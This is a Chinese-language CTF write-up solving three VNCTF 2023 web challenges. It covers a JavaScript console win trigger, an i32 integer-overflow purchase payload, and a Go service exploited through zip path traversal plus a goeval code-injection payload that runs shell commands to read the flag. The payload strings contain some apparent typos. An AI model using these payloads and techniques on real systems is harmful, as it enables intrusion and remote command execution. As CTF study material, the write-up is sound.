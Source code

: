 ## Web
### 象棋王子
在js源码 play.js中找到赢之后执行的逻辑，直接控制台执行
![](attachments/Pasted%20image%2020230427123520.png)


![](attachments/Pasted%20image%2020230427123350.png)

flag{w3lc0m3_t0_VNCTF_2023~~~}

### 电子木鱼
rust编写的后端，要1亿功德拿flag

![](attachments/Pasted%20image%2020230427124500.png)

这里考虑将cost设置为一个极限的负数，使功德减去它的时候能够转正 
i32的大小是 -2147483648~2147483647，经典的构造极限

没有思考了，在极限那个位置reset了几次
payload `name=Cost&quantity=214748366`

![](attachments/Pasted%20image%2020230427131811.png)

### BabyGo
go语言
一共5个路由
- GET /
- GET /upload
- POST /upload
	- 禁止上传 .gob 和 .go 文件
- GET /unzip
	- 解压文件，文件路径来自与get参数拼接
- GET /backdoor
	- 解码引用user.gob  在 Power为 admin 时 可以通过 goeval.Eval() 来执行命令

>思路：上传压缩文件，解压后覆盖原有user.gob 以此引用 /backdoor来执行命令，由于在调用的时候有decode的操作，我们生成的文件也需要是对应二进制的才能decode

[Go语言二进制文件的读写操作 (biancheng.net)](http://c.biancheng.net/view/4563.html)

```go
package main

import (
    "encoding/gob"
    "fmt"
    "os"
)

type User struct {
    Path string
    Name string
    Power string
}

func main() {
    user := User{Name: "ctfer", Path: "/tmp/d7671aa466b2c69f80e4bc0cf4b6b638/", Power: "admin",}
    file, err := os.Create("./user.gob")
    if err != nil {
        fmt.Println("文件创建失败", err.Error())
        return
    }
    defer file.Close()

    encoder := gob.NewEncoder(file)
    err = encoder.Encode(user)
    if err != nil {
        fmt.Println("编码错误", err.Error())
        return
    } else {
        fmt.Println("编码成功")
    }
}
```

解压时path可控，可以直接目录穿越
path=/../../../../../tmp/d7671aa466b2c69f80e4bc0cf4b6b638/
带着参数访问unzip就可以

![](attachments/Pasted%20image%2020230427135428.png)

当backdoor回显是good，就说明已经power=admin了
![](attachments/Pasted%20image%2020230427145609.png)

接下来就是goeval的使用
[GO语言安全 — 沙箱逃逸题目分析 (qq.com)](https://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247496259&idx=1&sn=20b93256d8a5acfda5826c5d50096f63&chksm=fa5227fdcd25aeebbf9f9add2a483500a252d5ad058a92dafad394eaa1c57cf2bdb597e51b5c&scene=126&sessionid=1662436887&key=c28b5d09085340df0c20cadc0887eb0a420d5b3478fb82405c1162a5003fd87a918cab97f0023574a573ac935bbb17c54b4098410befadcc31f8320ab2775346154c10836855dd919d18f6653ef474ed1062c1b09cc3588cc8443f46baeb60df34d6211b9cc5d40cf20b4d7620e849c117bcb06d9142c9a0e852b2f08ec8a0af&ascene=15&uin=MzgxODQ4MjMz&devicetype=Windows+Server+2016+x64&version=63070517&lang=zh_CN&session_us=gh_94beeafaf804&exportkey=AzYl%2FCartrKvkaqiL%2Bd9Iv4%3D&acctmode=0&pass_ticket=L3CGnrfwXOeo2T%2Buh4YWaI7nRTXofYaJoUhuF2SbHMXZ9TQM3m3vlwD2pKPsf2tC&wx_header=0&fontgear=2)
这篇文章文末有可用的payload，中间还有goeval的分析
```
os/exec"%0a"fmt")%0afunc%09init()(%0acmd%09;=exec.Command("/bin/sh","-c","cat${IFS}/flag")%Oares,err:=cmd.CombinedOutput()%Oafmt.Println(string(res))%0afmt.Println(err)%0a}%0aconst(%0aMessage="fmt
os/exec"%0A"fmt")%0Afunc%09init()%7B%0Acmd:=exec.Command("/bin/sh","-c","cat${IFS}/f*")%0Ares,err:=cmd.CombinedOutput()%0Afmt.Println(err)%0Afmt.Println(res)%0A}%0Aconst(%0AMessage="fmt
```